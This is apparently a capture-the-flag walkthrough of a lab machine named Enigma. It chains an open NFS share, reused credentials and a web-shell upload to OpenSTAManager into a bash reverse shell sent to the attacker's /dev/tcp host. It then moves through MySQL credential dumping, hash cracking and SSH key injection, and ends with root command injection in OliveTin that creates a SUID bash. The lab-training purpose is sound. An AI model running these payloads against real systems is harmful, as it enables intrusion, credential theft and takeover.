





# Attack Chain

```
└─► nmap → enigma.htb, NFS + mail ports
    └─► NFS /srv/nfs/onboarding → PDF → kevin creds + mail001 vhost
        └─► Roundcube: kevin → sarah (pwd reuse) → admin creds + support_001 vhost
            └─► OpenSTAManager 2.9.8 → ZIP path traversal RCE → www-data
                └─► config.inc.php → MySQL → zz_users → crack haris → su → user.txt
                    └─► OliveTin :1337 (root) → CVE-2026-27626 → SUID bash
```

# Summary

- [Enumeration](#enumeration)
- [Web - Default website](#web---default-website)
- [NFS](#nfs)
- [Web - Roundcube](#web---roundcube)
- [Web - OpenSTAManager](#web---openstamanager)
	- [CVE-2025-69212](#cve-2025-69212)
	- [Shell as www-data](#shell-as-www-data)
- [Lateral Movement](#lateral-movement)
	- [Credentials for MySQL](#credentials-for-mysql)
	- [Database Enumeration](#database-enumeration)
	- [Crack the hash](#crack-the-hash)
	- [Shell as haris](#shell-as-haris)
- [Privilege Escalation](#privilege-escalation)
	- [System Enumeration](#system-enumeration)
	- [SSH as Haris](#ssh-as-haris)
	- [OliveTin](#olivetin)
	- [Shell as root](#shell-as-root)

---
# Enumeration

Let's scan the target first.

```bash
nmap -sVC 10.129.24.40 -oA nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-29 05:15 EDT
Nmap scan report for enigma.htb (10.129.24.40)
Host is up (0.080s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Enigma Corp \xE2\x80\x94 Managed IT Solutions
110/tcp  open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: RESP-CODES UIDL PIPELINING STLS CAPA AUTH-RESP-CODE TOP SASL
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33523/tcp6  mountd
|   100005  1,2,3      44006/udp   mountd
|   100005  1,2,3      44102/udp6  mountd
|   100005  1,2,3      57955/tcp   mountd
|   100021  1,3,4      34901/udp6  nlockmgr
|   100021  1,3,4      37845/tcp6  nlockmgr
|   100021  1,3,4      43263/tcp   nlockmgr
|   100021  1,3,4      52478/udp   nlockmgr
|   100024  1          37463/udp6  status
|   100024  1          40862/udp   status
|   100024  1          50661/tcp   status
|   100024  1          52205/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
143/tcp  open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: LITERAL+ LOGIN-REFERRALS ENABLE IDLE IMAP4rev1 STARTTLS LOGINDISABLEDA0001 SASL-IR have post-login listed Pre-login ID capabilities OK more
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_imap-capabilities: LITERAL+ LOGIN-REFERRALS ENABLE IMAP4rev1 more listed SASL-IR have post-login capabilities Pre-login ID OK IDLE AUTH=PLAINA0001
995/tcp  open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: RESP-CODES UIDL PIPELINING USER CAPA AUTH-RESP-CODE TOP SASL(PLAIN)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
2049/tcp open  nfs_acl  3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.42 seconds
```

> [!NOTE]
> **Observations**
> - Mail ports open (110, 143, 993, 995)
> - Port 80 redirect us to `enigma.htb`
> - NFS is open (2049)

Let's add an entry to our `/etc/hosts` file to resolve the target.

```bash
echo '10.129.24.40 enigma.htb' | sudo tee -a /etc/hosts
```

# Web - Default website

On the main website, we are landing on a default corporate website offering services.


Unfortunately, our enumeration led nowhere since directory fuzzing along subdomain enumeration were unsuccessful.

# NFS

Let's try to see what shares are available over NFS.

```bash
showmount -e 10.129.24.40
Export list for 10.129.24.40:
/srv/nfs/onboarding *
```

We can access `/srv/nfs/onboarding`. Let's mount it on our machine.

```bash
mkdir /mnt/enigma
mount -o rw 10.129.24.40:/srv/nfs/onboarding /mnt/enigma/
```

Now that it's mounted, we can list the files inside.

```bash
ls /mnt/enigma/

New_Employee_Access.pdf
```

There is a PDF file, opening it reveals the following :



> [!NOTE]
> **PDF Analysis**
> - The subdomain `mail001.enigma.htb`
> - Credentials to connect to the subdomain, `kevin` : `Enigma2024!`


Let's add the subdomain to `/etc/hosts`.

```bash
echo '10.129.24.40 mail001.enigma.htb' | sudo tee -a /etc/hosts
```

# Web - Roundcube

Once we enter the credentials on the login page, we are landing on the application **Roundcube** which is a web client mail.


We have one mail in our inbox containing the following :


It's a welcoming message from **Sarah**.

After further enumeration on the web mail, it appears that **Sarah** shares the same password as **Kevin**. Probably because the password is a default one and has never been changed by **Sarah**.


**Sarah** has also one mail in her inbox, let's check it out.


> [!NOTE]
> **New Information :**
> - A new subdomain : `support_001.enigma.htb`
> - Credentials for the subdomain; `admin` : `Ne3s4rtars78s`

Let's add once again an entry to  `/etc/hosts`.

```bash
echo '10.129.24.40 support_001.enigma.htb' | tee -a /etc/hosts
```

# Web - OpenSTAManager

After logging in, we land on the application **OpenSTAManager**.



After some enumeration, the version used appears to be **2.9.8**.



### CVE-2025-69212

After some research, this version is vulnerable to **CVE-2025-69212**, a Command Injection vulnerability when uploading a certain type of file. 

Proof of Concept can be found [here](https://github.com/devcode-it/openstamanager/security/advisories/GHSA-25fp-8w8p-mx36) .

After following the POC, we upload our `shell.php` file in order to gain Command Injection.



And we can request it with `curl`.

```bash
curl http://support_001.enigma.htb/files/shell.php?c=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Our Command Injection is working and the user running the application is `www-data`.

### Shell as www-data

Let's get a shell on the target now. We will use the following payload.

```
bash -c 'bash -i >& /dev/tcp/10.10.*.*/6767 0>&1'
```

And we send it over `curl` after URL encoded it.

```bash
curl http://support_001.enigma.htb/files/shell.php?c=bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E15%2E173%2F6767%200%3E%261%27
```

We should now receive a shell on our listener.

```bash
penelope -i tun0 -p 6767

www-data@enigma:~/html/openstamanager/files$ 
```

# Lateral Movement


Now that we have a foothold on the target, let's find a way to pivot to another user.

### Credentials for MySQL

After some research, the database configuration of **OpenSTAManager** lies in the file `config.inc.php`, and we can find the following.

```php
<SNIP>
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
<SNIP>
```

### Database Enumeration

Let's connect to the mysql instance on the target and see what we can find.

```bash
www-data@enigma:~/html/openstamanager$ mysql -u brollin -pFri3nds@9099
```

First we list the databases.
```mysql
show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| openstamanager     |
| performance_schema |
+--------------------+
```

Let's use `openstamanager` database
```mysql
mysql> use openstamanager
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```
The credentials are stored inside the table `zz_users`, we can retrieve them with the following query.

```mysql
select username, password from zz_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu |
| haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC |
+----------+--------------------------------------------------------------+
```
### Crack the hash

We have the hash of the user `haris`. It's a **bcrypt** hash and we can use `hashcat` to crack it.

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt.gz 

<SNIP>

$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:bestfriends

<SNIP>
```

> [!TIP]
> **Hash Cracked - Credentials obtained**
> `haris`: `bestfriends`

### Shell as haris

We have the credentials for `haris`, but we can't connect over SSH since we need its private key.
Though we can switch user on our reverse shell.

```bash
www-data@enigma:~/html/openstamanager$ su haris
Password : bestfriends

haris@enigma:/var/www/html/openstamanager$
```

We can grab `user.txt` from here.

# Privilege Escalation

We successfully pivoted to another user, now we must find a way to gain access to the `root` user.

### System Enumeration

In `/opt` we can find 2 applications, **Roundcube** and another one we haven't seen yet, **OliveTin**.

```bash
haris@enigma:/opt/OliveTin/OliveTin-linux-amd64$ ls /opt

OliveTin  roundcube
```

Its default port is **1337** and we can see that the application is running locally.

```bash
haris@enigma:/opt/OliveTin/OliveTin-linux-amd64$ ss -tnlp

<SNIP>

LISTEN     0           4096           127.0.0.1:1337            0.0.0.0:*          

<SNIP>      
```

The application also runs as `root`.

```bash
haris@enigma:/opt/OliveTin/OliveTin-linux-amd64$ ps aux | grep Olive
root        1451  0.0  0.3 1238736 15304 ?       Ssl  12:59   0:00 /usr/local/bin/OliveTin
```

### SSH as Haris 

We need to forward the port to our machine to enumerate the application deeper. But we don't have a shell via SSH. 

To connect over SSH we can inject our own ssh key.

First we must create `.ssh` under `/home/haris`.

```bash
haris@enigma:~/.ssh$ mkdir .ssh
haris@enigma:~/.ssh$ cd .ssh
```

Then we write our public key to `authorized_keys` and we set the appropriate permissions.

```bash
haris@enigma:~/.ssh$ echo 'ssh-ed25519 <public_key>' > authorized_keys
haris@enigma:~/.ssh$ chmod 600 authorized_keys 
```

We can now connect over SSH as `haris`.

```bash
ssh -i id_ed25519 haris@enigma.htb
Last login: Mon Jun 29 14:41:11 2026 from 10.10.15.173
haris@enigma:~$
```

### OliveTin

Let's forward the **OliveTin**'s port to our machine and access it from our browser.

```bash
ssh -i id_ed25519 -L 1337:127.0.0.1:1337 haris@enigma.htb
```




The version in use is vulnerable to **CVE-2026-27626** [here](https://github.com/advisories/GHSA-49gm-hh7w-wfvf)

We are landing on a page where we can perform several actions. We can read the file **config.yaml** to see the actions they perform, and we notice the following :


```yaml
<SNIP>

- title: Backup Database
    id: backup_database
    icon: "⛁"
    shell: "mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql"
    popupOnStart: execution-dialog
    arguments:
      - name: db_user
        type: ascii_identifier
        default: backup_svc
      - name: db_pass
        type: password
      - name: db_name
        type: ascii_identifier
        default: production
   
<SNIP>
```

We do not need to be authenticated to perform the action, meaning we can abuse it to perform the CVE and gain Command Injection on the target as `root`.

To test it, we can do the following `curl` command that will return the `id` command.

```bash
curl -s -X POST \
  http://127.0.0.1:1337/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait \
  -H 'Content-Type: application/json' \
  -d '{"actionId":"backup_database","arguments":[
    {"name":"db_user","value":"backup_svc"},
    {"name":"db_pass","value":"x'\'' ; id ; #"},
    {"name":"db_name","value":"production"}
  ]}'
  
uid=0(root) gid=0(root) groups=0(root)
```

It worked, there are several ways to escalate our privilege from now on, but we can simply copy `/bin/bash` to `/tmp` and add the SUID binary.

### Shell as root

```bash
curl -s -X POST \
  http://127.0.0.1:1337/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait \
  -H 'Content-Type: application/json' \
  -d '{"actionId":"backup_database","arguments":[
    {"name":"db_user","value":"backup_svc"},
    {"name":"db_pass","value":"x'\'' ; cp /bin/bash /tmp/hacked; chmod 4755 /tmp/hacked ; #"},
    {"name":"db_name","value":"production"}
  ]}'
```

```bash
haris@enigma:/tmp$ ./hacked -p
hacked-5.2# id
uid=1000(haris) gid=1000(haris) euid=0(root) groups=1000(haris),100(users)
```

> [!TIP]
> **Machine Rooted**

